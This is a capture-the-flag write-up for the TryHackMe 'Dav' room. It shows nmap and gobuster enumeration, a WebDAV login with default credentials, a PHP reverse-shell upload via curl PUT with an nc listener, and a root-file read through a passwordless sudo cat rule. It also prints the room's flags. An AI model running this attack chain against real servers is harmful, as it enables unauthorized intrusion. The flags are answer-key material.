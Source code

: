```yaml
---
title: "Dav - TryHackMe"
author: Ludovic COULON
date: 2020-05-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Dav room on TryHackMe"
---
```


[TryHackMe | Dav](https://tryhackme.com/room/bsidesgtdav)

Read user.txt and root.txt

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.33.240
```

```bash
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
➜  TryHackMe gobuster dir -u http://10.10.33.240 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.33.240
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/30 16:54:40 Starting gobuster
===============================================================
/webdav (Status: 401)
```

```bash
# There is a creds to acces the page just google webdav default creds"
http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
user: wampp
pass: xampp
```

<div className="Image__Medium">
  <img src="https://imgur.com/BKDICjY.png" alt="blog_image" />
</div>

```bash
# Don't try to crack the hash its a rabit hole (sad life :'c)
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

Let's get a reverse shell on the server ! 🤑

[Learning Pentesting with Metasploitable3: Exploiting WebDAV](https://resources.infosecinstitute.com/learning-pentesting-metasploitable3-exploiting-webdav-2/#gref)

```bash
➜  TryHackMe curl –v --user wampp:xampp http://10.10.33.240/webdav/verify.txt -X PUT
curl: (3) Failed to convert –v to ACE; string contains a disallowed character

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/verify.txt has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.33.240 Port 80</address>
</body></html>
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtdInMA.png" alt="blog_image" />
</div>

Nice, let's try with a php reverse shell shall we ? 😃

### #1 user.txt

```bash
➜  TryHackMe curl --user wampp:xampp http://10.10.33.240/webdav/reverse-shell.php --upload-file reverse-shell.php -X PUT
➜  TryHackMe nc -lvnp 4444
```

<div className="Image__Medium">
  <img src="https://imgur.com/iIe25rq.png" alt="blog_image" />
</div>

```bash
$ cd /home
$ ls
merlin
wampp
$ cd merlin
$ ls
user.txt
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

### #2 root.txt

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
$ sudo cat /root/
cat: /root/: Is a directory
$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
